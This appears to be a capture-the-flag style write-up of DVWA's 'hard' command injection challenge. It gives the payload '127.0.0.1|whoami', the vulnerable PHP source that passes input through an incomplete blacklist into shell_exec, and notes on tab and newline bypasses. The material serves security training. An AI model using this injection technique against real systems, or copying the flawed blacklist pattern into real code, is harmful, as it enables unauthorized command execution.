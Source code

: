 # Command Injection – Hard

## Attack Steps

    1. Navigate to target page
        - http://localhost/dvwa/vulnerabilities/exec
    
    2. Enter the payload in the input field (note: no space after the pipe):

    ```bash 
    127.0.0.1|whoami
    ```
    - Click the Submit button.

    3. Observe the output: 
    - You should see the ping results, followed by the output of the injected command, e.g.:

    ```bash
    Pinging 127.0.0.1 with 32 bytes of data:
    Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
    ...

    dvwauser
    ```

## Vulnerable Code Analysis
### File:

`C:\xampp\htdocs\DVWA\vulnerabilities\exec\source\high.php` (or equivalent for Hard mode)

#### Key Vulnerability Points:
```php
<?php

if (isset($_POST['Submit'])) {
    // Get input
    $target = trim($_REQUEST['ip']);

    // Set blacklist
    $substitutions = array(
        '||' => '',
        '&'  => '',
        ';'  => '',
        '| ' => '',   // <-- Only pipe + space, not bare pipe
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
    );

    // Remove blacklisted sequences
    $target = str_replace(array_keys($substitutions), $substitutions, $target);

    // Determine OS and execute the ping command
    if (stristr(php_uname('s'), 'Windows NT')) {
        $cmd = shell_exec('ping ' . $target);
    } else {
        $cmd = shell_exec('ping -c 4 ' . $target);
    }

    echo "<pre>{$cmd}</pre>";
}
?>
```

## Explanation
- Partial blacklist (pipe + space only): The blacklist removes only the exact sequence "| ", not a bare "|". This allows 127.0.0.1|whoami to pass unchanged.
    ```php 
    $substitutions = array(
    // ...
    '| ' => '',   // matches only pipe followed by a literal space
    // ...
    );
    // ...
    $target = str_replace(array_keys($substitutions), $substitutions, $target);
    ```
- Other whitespace types (%09 tab, %0a newline) also bypass the filter.

- trim() only removes whitespace/control characters from the start and end of the string.
- It does not alter or inspect characters in the middle, so it cannot fix blacklist gaps.
    ```php 
    $target = trim($_REQUEST['ip']);
    ```

- The partially filtered user input is concatenated directly into a shell command. Shell metacharacters are interpreted by the shell.
    ```php
    $cmd = shell_exec('ping ' . $target);        // Windows
    // or
    $cmd = shell_exec('ping -c 4 ' . $target);   // *nix
    ```

- Causes: 
    - Blacklist errors 
    - Trim doesn't fully filter out whitespace characters 
